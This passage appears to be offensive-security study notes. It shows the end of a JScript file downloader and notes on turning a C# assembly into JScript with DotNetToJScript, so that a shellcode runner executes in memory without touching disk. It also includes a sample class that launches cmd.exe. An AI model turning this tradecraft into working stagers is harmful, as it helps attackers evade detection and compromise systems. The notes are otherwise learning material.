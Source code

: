 ```js
        }
    } catch (e) {
        WScript.Echo("Error: " + e.message);
    }
}

// Set the system proxy and download the file
setSystemProxy(proxyServer);
downloadFile(url, destination);

```
- to run from shell `cscript .\file.js`


## JScript and C\#

- JScript Shellcode Runner creates a dll in C# and then used DotNetToJscript.exe to convert the C# assembly
- run in memory rather than touching disk
- needed to rebuild DotNetToJscript dll due to the following error
```cmd
c:\Users\dooley\Documents\github\DotNetToJScript>DotNetToJScript\bin\Debug\DotNetToJScript.exe ExampleAssembly\bin\Debug\ExampleAssembly.dll --lang=Jscript --ver=v4 -o demo.js
This tool should only be run on v2 of the CLR
```
- solution to issue https://github.com/tyranid/     DotNetToJScript/issues/19
- code to launch command prompt
```c#
using System.Diagnostics;
using System.Runtime.InteropServices;
using System.Windows.Forms;

[ComVisible(true)]

public class TestClass

{

    public TestClass()

    {
        // Create a new ProcessStartInfo object

        ProcessStartInfo psi = new ProcessStartInfo

        {

            FileName = "cmd.exe", // Specify the executable to run (cmd.exe)
            UseShellExecute = true // Use the shell to execute the process

        };

        // Start the process

        Process.Start(psi);

    }

    public void RunProcess(string path)

    {

        Process.Start(path);

```